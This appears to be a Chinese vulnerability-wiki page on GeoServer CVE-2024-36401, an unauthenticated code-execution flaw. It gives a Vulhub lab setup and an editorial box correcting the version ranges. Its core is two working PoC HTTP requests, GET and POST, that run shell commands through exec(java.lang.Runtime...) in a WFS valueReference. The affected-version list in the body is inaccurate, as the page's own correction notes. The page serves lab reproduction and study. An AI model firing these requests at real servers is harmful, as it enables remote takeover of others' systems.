





# GeoServer 属性名表达式前台代码执行漏洞 CVE-2024-36401

<!-- vulwiki-editorial:start -->
## 校订与适用边界

受影响范围必须按分支表示，不能用 ≤2.23.5 把已修复的 2.22.6 包进去。移除 gt-complex 是会影响功能的临时措施，实施前需评估相关业务。

- 适用前提：受影响GeoTools属性表达式求值、可访问OGC入口、有效typeName；实际权限随配置
- 证据范围：明确typeName有效性并提供文件结果检查，优于把ClassCastException单独当成功。41852是JXPath研究背景，不是本篇主CVE。

### 已有来源支持的更正

- 已读官方公告：还存在2.22.6修复分支，文章<=2.23.5会误标已修复2.22.6。准确分支<2.22.6，2.23.0–<2.23.6，2.24.0–<2.24.4，2.25.0–<2.25.2；去gt-complex会破坏部分功能。

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- POST使用sf前缀却只声明topp，需核该实现对typeName命名空间解析行为
- 固定Content-Length需重算，无测试文件清理
- 官方无公开PoC引文是公告当时状态，需标历史日期

### 核验来源

- https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在 GeoServer 2.25.1， 2.24.3， 2.23.5 版本及以前，未登录的任意用户可以通过构造恶意 OGC 请求，在默认安装的服务器中执行 XPath 表达式，进而利用执行 Apache Commons Jxpath 提供的功能执行任意代码。

参考链接：

- https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv
- https://github.com/geotools/geotools/security/advisories/GHSA-w3pj-wh35-fq8w
- https://tttang.com/archive/1771/
- https://github.com/Warxim/CVE-2022-41852

## 漏洞影响

```
GeoServer ≤ 2.23.5
2.24.0 <= GeoServer ≤ 2.24.3
2.25.0 <= GeoServer ≤ 2.25.1
```

## 环境搭建

Vulhub 执行如下命令启动一个 GeoServer 2.23.2 服务器：

```shell
docker compose up -d
```

服务启动后，你可以在 `http://your-ip:8080/geoserver` 查看到 GeoServer 的默认页面。




## 漏洞复现

在官方 [漏洞通告](https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv) 中提到可以找到漏洞相关的 WFS 方法：

> No public PoC is provided but this vulnerability has been confirmed to be exploitable through WFS GetFeature, WFS GetPropertyValue, WMS GetMap, WMS GetFeatureInfo, WMS GetLegendGraphic and WPS Execute requests.
> 未提供公开 PoC，但已确认可通过 WFS GetFeature、WFS GetPropertyValue、WMS GetMap、WMS GetFeatureInfo、WMS GetLegendGraphic 和 WPS Execute 利用此漏洞。

Vulhub 使用 `GetPropertyValue` 来执行 xpath 表达式，参考 [官方文档](https://github.com/geoserver/geoserver/blob/2.23.2/doc/en/user/source/services/wfs/reference.rst) 构造两个 POC。基于 GET 方法的 POC：

```http
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/awesome_poc1') HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
```




基于 POST 方法的 POC：

```http
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/awesome_poc2')</wfs:valueReference>
</wfs:GetPropertyValue>
```




均触发 `java.lang.ClassCastException` 类型转换异常，命令执行成功。

进入容器验证 `touch /tmp/awesome_poc1` 和 `touch /tmp/awesome_poc2` 执行结果：




Payload 中的 typeNames 必须存在，例如：

```
<wfs:Query typeNames='sf:archsites'/>
```

可以在 Web 页面中找到当前服务器中的所有 Types：

```
http://your-ip:8080/geoserver/web/wicket/bookmarkable/org.geoserver.web.demo.MapPreviewPage?2&filter=false
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
